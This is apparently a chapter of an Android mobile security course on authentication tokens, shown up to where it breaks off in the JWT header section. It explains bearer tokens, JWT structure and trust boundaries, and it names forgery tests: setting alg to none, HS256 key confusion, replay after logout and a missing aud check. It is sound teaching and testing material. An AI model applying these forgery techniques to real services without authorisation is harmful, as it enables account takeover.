








# 46 — Tokens

> After this chapter you will be able to take any credential an Android app is carrying —
> a JWT, an opaque bearer string, a refresh token, an `AuthState` blob dug out of
> SharedPreferences — and say precisely what it is, what it authorises, how long it lives,
> who else can reach it, which of the eight documented verification failures its consumer
> might have, and whether the fact that you are holding it is a finding at all. You will
> build a token issuer, forge seven kinds of invalid token against a verifier you wrote,
> and watch a correct verifier refuse all of them.

**Prerequisites:** [34-Cryptography](../34-Cryptography/README.md),
[33-Storage](../33-Storage/README.md), [35-SSL](../35-SSL/README.md),
[45-OAuth](../45-OAuth/README.md)
**Related:** [49-KeyStore](../49-KeyStore/README.md), 47-Authentication, 48-Biometrics
**Applies to:** Every Android version — a token is a network artefact, not a platform
one. The Android-specific material (storage, `AccountManager`, backup, Keystore wrapping)
covers API 21–36, with the version matrix in [3.13](#313-version-matrix).

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [High-Level Architecture](#2-high-level-architecture)
3. [Deep Internal Working](#3-deep-internal-working)
4. [Source Code Walkthrough (AOSP)](#4-source-code-walkthrough-aosp)
5. [Security Perspective](#5-security-perspective)
6. [Reverse Engineering Perspective](#6-reverse-engineering-perspective)
7. [Dynamic Analysis](#7-dynamic-analysis)
8. [Static Analysis](#8-static-analysis)
9. [Examples](#9-examples)
10. [Common Interview Questions](#10-common-interview-questions)
11. [Common Mistakes](#11-common-mistakes)
12. [Hands-on Labs](#12-hands-on-labs)
13. [Summary](#13-summary)
14. [References](#14-references)

---

## 1. Introduction

### 1.1 The problem that existed before tokens

Imagine a building with one security guard and four hundred doors.

Every time anybody wants to go through any door, they walk back to the front desk, show
the guard their passport, wait while the guard telephones head office to confirm the
passport is genuine, and then walk to the door. Four hundred doors, several thousand
people, every day. The guard is the bottleneck, the passport is being handled by hundreds
of people, and head office's telephone never stops ringing.

Now imagine the alternative. You show your passport **once**, at the front desk, in the
morning. The guard hands you a plastic badge. The badge says which floors you may enter
and expires at six o'clock. From then on, every door reads the badge. Nobody telephones
head office. Nobody sees your passport again.

That is the entire idea. The passport is a **credential you cannot replace** — if it is
copied, you are in serious trouble for years. The badge is a **credential designed to be
handed around** — narrow, time-limited, and replaceable in seconds.

Before tokens, software worked the first way. An application that wanted to call an API
sent a username and password with **every single request**. This is HTTP Basic
authentication and it is still, occasionally, out there. Think about what it means:

- The password travels on every request, so every proxy, every log, every crash report
  and every misconfigured TLS termination point is a chance to lose it.
- The server must verify the password on every request, which means either a slow
  password hash (expensive) or a fast one (a catastrophe when the database leaks).
- The password grants everything the account can do. There is no such thing as "read-only
  access for this one integration".
- Revoking access means changing the password, which breaks every other place it was used.
- The application must **keep** the password to send it again, so a phone in a drawer is a
  phone containing a password.

Every one of those problems is solved by exchanging the durable credential for a
disposable one, exactly once, and using the disposable one thereafter.

> **🧠 Mental Model — the cloakroom ticket**
> When you hand your coat to a cloakroom you receive a small numbered ticket. Two things
> about that ticket are worth thinking about carefully, because they are the two halves
> of this entire chapter.
>
> **First: the ticket is not the coat.** It is a *reference*. The number `47` means nothing
> by itself. The cloakroom attendant looks up `47` in a book and finds your coat. If you
> lose the book, the ticket is worthless. This is an **opaque token**.
>
> **Second: imagine a different cloakroom** that hands you a ticket reading *"one navy
> wool overcoat, hook 47, valid until 11pm"*, stamped with the cloakroom's official seal.
> Now the ticket *contains* the information. The attendant does not need a book — they
> read the ticket, check the seal is genuine, and fetch what it describes. This is a
> **structured token**, and a JWT is exactly this.
>
> The second design is faster and scales better, because any attendant at any cloakroom
> in the chain can honour it without consulting a central book. And it has two
> consequences the first design does not. **Anyone who picks up the ticket can read what
> is written on it** — the seal proves the writing is authentic, it does not hide it. And
> **the cloakroom cannot change its mind**: once a ticket is written and stamped, it is
> valid until 11pm even if you are subsequently barred from the building, because nobody
> is consulting a book any more.
>
> Hold onto both of those. Section 3.3 is about the first one and section 3.10 is about
> the second, and between them they explain most of what goes wrong with tokens.

### 1.2 What a token is, precisely

> **📖 Definition — token**
> A **token** is a string that a client presents to a server as evidence that some
> authorisation decision was already made in the client's favour. It is issued by a party
> the server trusts, it names what it permits, and it stops working at some point.

Three words in that definition carry weight.

**"Evidence"**, not "identity". A token is not who you are. It is a record that somebody
who *is* trusted concluded something about you at a particular moment. The distinction
matters when the conclusion goes stale — the account was suspended, the permission was
revoked, the password was changed — and the token, being a record of a past decision, does
not know.

**"Already made"**. The expensive work — checking a password, verifying a second factor,
consulting a policy engine — happened once, before the token existed. Everything after
that is cheap. This is the entire performance argument for tokens and it is a good one.

**"Stops working"**. A credential with no expiry is not a token, it is a password with a
different shape. Section 5.5 treats a missing `exp` as a critical finding for exactly this
reason.

> **📖 Definition — bearer token**
> A token where **possession alone is sufficient**. The holder need not prove anything
> else — no key, no certificate, no device. RFC 6750 defines the HTTP mechanism:
> `Authorization: Bearer <token>`.

That word "bearer" is the most consequential word in this chapter, so it gets its own
warning.

> **⚠️ Warning — what "bearer" actually means for your report**
> A bearer token is a **bearer instrument**, in the same sense as cash or a bearer bond.
> The bytes *are* the authorisation. There is no second factor, no binding to a device, no
> binding to an IP address, no binding to a TLS connection. A token copied out of a
> phone's SharedPreferences works, unchanged, from a laptop on another continent, over a
> different network, in a different country, and the server cannot tell.
>
> This is why every storage finding in [33-Storage](../33-Storage/README.md), every
> transport finding in [35-SSL](../35-SSL/README.md), and every logging finding anywhere
> in this repository becomes an *account access* impact the moment the thing that leaked
> is a token. The token is the amplifier.
>
> It is also why the fix that actually changes the picture is **sender-constraining** —
> making possession insufficient — and why section 3.11 spends real time on DPoP and mTLS
> despite their rarity in the field.

### 1.3 Why Android makes this harder

A server-side application holds its tokens in process memory on a machine in a data
centre. If an attacker can read that memory, the token is the least of anybody's problems.

An Android app holds its tokens on a device that is:

- **In the attacker's physical possession**, in the threat model that matters. Your
  attacker is often the *user* — someone who wants to unlock a paid feature, forge a
  loyalty balance, or resell an account.
- **Rootable**, at which point every file the app owns is readable and every function it
  calls is hookable.
- **Backed up**, sometimes to Google's servers, sometimes to a local file.
- **Shared**, resold, repaired, and handed to children.
- **Running other apps**, some of which are hostile and all of which are one bug away from
  reaching your data.

And the app must **persist** the token, because a user who is logged out every time they
close the app will uninstall it. So the token cannot live only in memory, and the moment
it is written down, chapters 33, 49 and this one intersect.

> **🔍 Pentester's Note — the sentence that turns a token into a finding**
> The most common error in mobile reports is: *"The application stores an authentication
> token in SharedPreferences."*
>
> That is not a finding. It is a description of how essentially every Android application
> works, and on a stock, locked, unrooted device the app sandbox plus file-based
> encryption is a genuine control that keeps that token private. A reviewer who has read
> [33-Storage §5.3](../33-Storage/README.md) will reject it, and they will be right.
>
> Section 5.10 of this chapter is the honest version, and it is the single most useful
> thing here. The short form: a captured token from your own test account is not a
> finding. It becomes one when it is **over-scoped**, **long-lived**, **replayable after
> logout**, **accepted without signature verification**, or **readable by another app**.
> Those five clauses, and evidence for whichever one you are claiming.

### 1.4 What would break without tokens

Take them away and see what falls over. This is not an academic exercise — it tells you
what a token is *for*, which tells you what a broken one costs.

| Remove | What breaks |
|---|---|
| Tokens entirely | Every request carries the password. One leaked log line is a permanent account compromise, and there is no way to grant partial access to anything. |
| Expiry | A token stolen once works forever. Every compromise is permanent, and there is no such thing as "the window has closed". |
| Scope | Every token grants everything. The read-only analytics integration can transfer funds. |
| Signatures | Anybody writes any token. Authorisation becomes advisory. |
| The `aud` claim | A token minted for the low-value service is a valid credential at the high-value one. Compromise the weakest system in the estate and you have compromised all of them. |
| Refresh tokens | Either the access token lives for weeks (and theft is catastrophic) or the user logs in hourly (and stops using the app). |
| Revocation | A dismissed employee's tokens keep working until they expire. "Log out of all devices" becomes a button that does nothing. |

Every row is a real failure mode you will find in the field, and every row corresponds to a
section below.

### 1.5 What this chapter owns, and what it does not

This chapter sits in a dense neighbourhood, and the boundaries are deliberate. Getting
them right is what keeps a report focused on the right layer.

| Chapter | Owns | This chapter owns instead |
|---|---|---|
| [45-OAuth](../45-OAuth/README.md) | The **flow**: grant types, PKCE, redirect handling, scheme hijacking, Custom Tabs versus WebView, `state` and `nonce` in the request. How you *obtain* a token. | What the token **is** once you have one, and everything you do with it afterwards. |
| [34-Cryptography](../34-Cryptography/README.md) | The **primitives**: AES, RSA, ECDSA, HMAC, SHA-256, modes, padding, randomness. Whether the crypto is sound. | How those primitives are *assembled* into a token format, and the failures that live in the assembly rather than in the algorithm. |
| [49-KeyStore](../49-KeyStore/README.md) | **Key storage**: hardware backing, attestation, the extraction-versus-use distinction. | The token that a Keystore key wraps, and why wrapping it changes some threats and not others. |
| [33-Storage](../33-Storage/README.md) | **At-rest mechanics**: SharedPreferences and SQLite file formats, the WAL, CE/DE, backup channels, reachability analysis. | Which artefact is worth looking for, and what finding one is worth. |
| [35-SSL](../35-SSL/README.md) | **Transport**: TLS, trust anchors, interception. | What the intercepted bearer token means. |
| [47-Authentication](../47-Authentication/README.md) | Sessions, server-side enforcement, login and MFA flows — plus lockout, enumeration, autofill, passkeys and what logout must actually do. | The credential those sessions are carried by. |

Two specific hand-offs, stated so nothing is restaged:

**[45-OAuth](../45-OAuth/README.md) already has** an interception lab
([`lab-01`](../45-OAuth/labs/lab-01-intercept-the-flow.md)), a PKCE-enforcement lab
([`lab-02`](../45-OAuth/labs/lab-02-pkce-enforcement.md)), a scheme-hijacking lab
([`lab-03`](../45-OAuth/labs/lab-03-scheme-hijack.md)), and a CTF
([`lab-04`](../45-OAuth/labs/lab-04-ctf-the-borrowed-identity.md)) that includes an
audience-confusion path. Those are cited here, never repeated. Its
[`oauth-param-decoder.py`](../45-OAuth/scripts/oauth-param-decoder.py) does light JWT
decoding *as part of* analysing a captured flow;
[`scripts/jwt-analyse.py`](scripts/jwt-analyse.py) here is the deep, claim-by-claim,
failure-class version for when the token is the subject rather than the flow.

**45-OAuth explicitly defers to this chapter** on refresh-token handling — its §3.8
verdict reads *"must use rotation with reuse detection, or be sender-constrained (DPoP /
mTLS, see 46-Tokens)"*. That promise is discharged in [3.9](#39-refresh-tokens-rotation-and-reuse-detection)
and [3.11](#311-sender-constraining-dpop-and-mtls).

### 1.6 What you will be able to do

By the end you will be able to look at this:

```
eyJhbGciOiJSUzI1NiIsImtpZCI6InJzYS0yMDI2LTA4IiwidHlwIjoiSldUIn0.eyJhdWQiOiJjb20u
cGVudGVzdC5jaDQ2LmNsaWVudCIsImV4cCI6MTc4NjUzOTI3MSwiaWF0IjoxNzg2NTM4MzcxLCJpc3Mi
OiJodHRwczovL2lzc3Vlci5sYWIubG9jYWwiLCJqdGkiOiJnMGxqTTlYLTJqZlBPYUdHIiwibmJmIjox
Nzg2NTM4MzcxLCJyb2xlIjoidXNlciIsInNjb3BlIjoibm90ZXMucmVhZCIsInN1YiI6ImFsaWNlIn0.
<256 bytes of signature>
```

…and, without any tool, say: it is a JWT; the header claims RS256 with key `rsa-2026-08`;
the payload is *readable by anyone holding it* and says subject `alice`, audience
`com.pentest.ch46.client`, issuer `https://issuer.lab.local`, scope `notes.read`, minted
at one timestamp and expiring fifteen minutes later; it carries a `jti` so replay
detection is at least possible; and it carries **no `cnf` claim**, so it is a pure bearer
token and whoever holds those bytes is `alice`.

Then you will know the next four things to do: send it with `alg` rewritten to `none`;
re-sign it as HS256 using the issuer's published public key; replay it after logging out;
and check whether the resource server ever compares `aud`. Section 12's labs make you do
all four against something you built.

---

## 2. High-Level Architecture

### 2.1 The life of a token, end to end



Read that as six numbered tests and three leak paths, because that is what it is.

**Arrow 1** is where [45-OAuth](../45-OAuth/README.md) stops and this chapter starts. The
token response has arrived. Everything to the right of it is ours.

**Arrow 2** is the storage decision, and it is the one developers agonise over and testers
over-report. Section 3.7 gives the four options and the honest severity of each.

**Arrow 3** is use. The interesting question here is not "does it send the token" but
*which* token it sends: an app that puts its `id_token` in the `Authorization` header has
told you its API does not check `aud`.

**Arrow 4 is the only arrow that matters for forgery**, and it is the one you cannot see.
Every attack in section 5 is an attack on this box. The token's own header tells you what
the *issuer* did; only sending a forgery tells you what the *verifier* accepts.

**Arrow 5** is refresh, where rotation and reuse detection live (section 3.9).

**Arrow 6** is revocation, and it is dotted because in most apps it does not happen at all
(section 3.10).

The three red boxes and the dotted leak arrows are chapters 33, 21 and this one working
together. Note that the leak paths bypass every control on the storage decision: an
`EncryptedSharedPreferences`-backed token that is also written to logcat is not protected
by anything.

### 2.2 The trust boundaries

```mermaid
flowchart LR
    subgraph Red["Attacker-controlled — nothing here is a control"]
        R1["The token bytes on the device"]
        R2["The app's decision to send it"]
        R3["Anything the app checks about it"]
        R4["The `alg` field in the header"]
        R5["Every claim in the payload"]
        R6["The client's idea of 'logged out'"]
    end
    subgraph Amber["Observable but not controllable"]
        A1["TLS to the resource server"]
        A2["The token's own signature"]
    end
    subgraph Green["Server-side — the only place a control can live"]
        G1["Signature verification with a key<br/>the SERVER chose"]
        G2["iss / aud / exp comparison"]
        G3["Scope enforcement per endpoint"]
        G4["Revocation and reuse detection"]
        G5["Re-deriving the user's privileges"]
    end
    Red --> Amber --> Green
    style R1 fill:#f9d0d0
    style R2 fill:#f9d0d0
    style R3 fill:#f9d0d0
    style R4 fill:#f9d0d0
    style R5 fill:#f9d0d0
    style R6 fill:#f9d0d0
```



The red column is longer than people expect, and two of its entries surprise everybody.

**`alg` is attacker-controlled.** It lives in the header, the header is part of the token,
and the token was written by whoever wrote it. A verifier that reads `alg` to decide how to
verify has asked the attacker how to check the attacker's work. This one line of reasoning
generates three of the eight failure classes in section 5.

**Every claim is attacker-controlled until the signature has been checked.** That includes
`sub`. A verifier that looks up the user from `sub` and *then* verifies the signature has
already performed an unauthenticated database query with an attacker-chosen key, and if
that lookup has side effects — creating the account if it does not exist, for instance —
the later signature check is decoration.

Contrast with [45-OAuth §2.2](../45-OAuth/README.md#22-the-trust-boundaries-drawn-explicitly),
which draws the same picture for the flow. The lesson is identical and worth stating once
more: **if a control lives in the red zone it is not a control, it is a suggestion.**

### 2.3 The two token shapes, side by side



That single structural difference — whether the resource server must ask somebody — cascades
into everything:

| | Opaque | Structured (JWT) |
|---|---|---|
| Where the claims live | The issuer's database | Inside the token, readable by anyone |
| Verification | A network call per request (or per cache window) | Local, using a cached public key |
| Latency and coupling | Every RS depends on the AS being up | RS works even if the AS is down |
| **Revocation** | **Immediate** — delete the row | **Impossible before `exp`**, without adding state back |
| Can the client read the claims? | No | **Yes, trivially** |
| Offline forgery attempts | Pointless — there is nothing to forge | The entire attack surface of this chapter |
| Size | 20–60 characters | 500–2000+ characters, sometimes far more |
| What you test | Replay, entropy, revocation, introspection caching | All of that, **plus** eight verification failure classes |

> **🔍 Pentester's Note — the first thing you do with any token**
> Count the dots. Three segments separated by two dots and starting `eyJ` is a JWT and
> section 5's whole catalogue applies. Anything else is opaque and **none of it applies** —
> no `alg:none`, no algorithm confusion, no secret cracking, because there is no signature
> and no claims to edit.
>
> Testers waste hours here. `scripts/jwt-analyse.py` tells you which you are holding in one
> command and, for an opaque token, tells you what to test instead.
>
> ```bash
> # host
> python3 -B scripts/jwt-analyse.py --token "$TOKEN"
> ```

### 2.4 Where a token can be on an Android device



The four bands are ordered by how bad it is to find a token in each, and the ordering is
not the same as "how surprising it is". Finding a token in private storage is unsurprising
and usually fine. Finding one in the fourth band is a finding on its own, regardless of how
carefully the app handled the first three.

`scripts/token-storage-sweep.sh` walks all four bands and, crucially, prints which access
level produced each result — because an empty result from an unrooted shell means the shell
could not look, not that nothing is there.

### 2.5 A JWT, drawn byte by byte

```
   eyJhbGciOiJSUzI1NiIsImtpZCI6InJzYS0yMDI2LTA4In0 . eyJzdWIiOiJhbGljZSIsImV4cCI6MTc4Nn0 . MEUCIQD...
   \_______________________________________________/   \_________________________________/   \_______/
                    HEADER                                        PAYLOAD                    SIGNATURE
                base64url(JSON)                              base64url(JSON)              base64url(bytes)

   {"alg":"RS256","kid":"rsa-2026-08"}              {"sub":"alice","exp":1786...}         raw signature bytes

   \___________________________________________________________________________________/
                          THE SIGNING INPUT: header_b64 + "." + payload_b64
                          The signature covers THESE ASCII BYTES, not the JSON.
```

Three facts are visible in that diagram and each one causes real bugs when it is not
understood.

**The separator is part of the signed data.** The signature covers the exact string
`header_b64 + "." + payload_b64`. Not the JSON. Not the parsed objects. The bytes as
received. This is why you must never re-serialise a JWT you intend to verify: `json.dumps`
adds spaces, key order may change, and the resulting bytes will not verify even though the
claims are identical.

**It is base64url, not base64.** RFC 4648 §5: `+` becomes `-`, `/` becomes `_`, and the
`=` padding is stripped. The reason is that the value must survive being placed in a URL
and in an HTTP header without further escaping. A forgery tool that used standard base64
leaves `+` and `/` characters in the segments, which is a visible fingerprint — and it is
why `examples/02-correct-verifier.py` rejects them strictly.

**The signature is the third segment and it can be empty.** A token ending in a bare `.`
is structurally valid and means "unsigned". That is `alg:none`, and section 5.1 is about
what happens when somebody accepts one.

---

## 3. Deep Internal Working

This is the longest section. It covers what a token is made of, every field that matters,
the two families, the Android storage decision, refresh and revocation, and
sender-constraining.

### 3.1 The JOSE family, so the names stop being confusing

Five acronyms appear constantly and people use them interchangeably. They are not
interchangeable.

| Acronym | Full name | RFC | What it is |
|---|---|---|---|
| **JOSE** | JSON Object Signing and Encryption | — | The umbrella working group and family name. Not a format. |
| **JWS** | JSON Web Signature | RFC 7515 | A **signed** structure: header, payload, signature. Three segments. |
| **JWE** | JSON Web Encryption | RFC 7516 | An **encrypted** structure. **Five** segments. |
| **JWK** | JSON Web Key | RFC 7517 | A key, as JSON. A **JWKS** is a set of them, served at the issuer's `jwks_uri`. |
| **JWT** | JSON Web Token | RFC 7519 | A **claims set** carried in a JWS or a JWE. |

The relationship is the part that gets lost: **JWT is not a competitor to JWS and JWE, it
is a payload convention that rides on one of them.** A JWT whose claims are signed is a
JWS with a JSON payload obeying RFC 7519's claim rules. A JWT whose claims are encrypted is
a JWE.

In practice, "JWT" almost always means "JWS with a JSON claims set", because JWE is rare.
Count the segments to be sure: three means JWS, five means JWE.

> **📖 Definition — compact serialisation**
> The `a.b.c` form. JWS and JWE both also define a **JSON serialisation** — a JSON object
> with named members, supporting multiple signatures over one payload. You will essentially
> never see it in mobile. When someone says "a JWT" they mean compact serialisation.

### 3.2 Structured tokens, field by field

#### 3.2.1 The header (the JOSE header)

